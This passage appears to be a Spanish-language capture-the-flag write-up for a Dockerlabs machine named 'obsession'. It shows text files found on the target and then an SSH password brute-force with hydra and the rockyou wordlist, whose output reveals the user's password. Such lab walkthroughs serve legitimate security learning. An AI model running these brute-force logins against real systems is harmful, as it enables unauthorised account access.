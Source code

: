 ```
❯ cat chat-gonza.txt
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: chat-gonza.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ [16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
   2   │ [16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
   3   │ [16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
   4   │ [21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
   5   │ [21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
   6   │ [22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ cat pendientes.txt
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pendientes.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!
   2   │ 
   3   │ 2 Aumentar el precio de mis asesorías online en la Web!
   4   │ 
   5   │ 3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!
   6   │ 
   7   │ 4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
   8   │   permisos habilitados que no son del todo seguros..
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Así que mientras dejamos haciendo un ataque de fuerza bruta al puerto SSH para ambos usuarios con hydra, podemos ir investigando la web para ver si podemos obtener mas información.<br>
Mientras investigamos la red, vemos que el usuario principal es Russoski, de manera que cuando acaba y encuentra la contraseña, paramos el otro ataque de fuerza bruta y hacemos login por SSH.

```
❯ hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://obsession
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-19 10:48:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://obsession:22/
[22][ssh] host: obsession   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-19 10:49:34
```
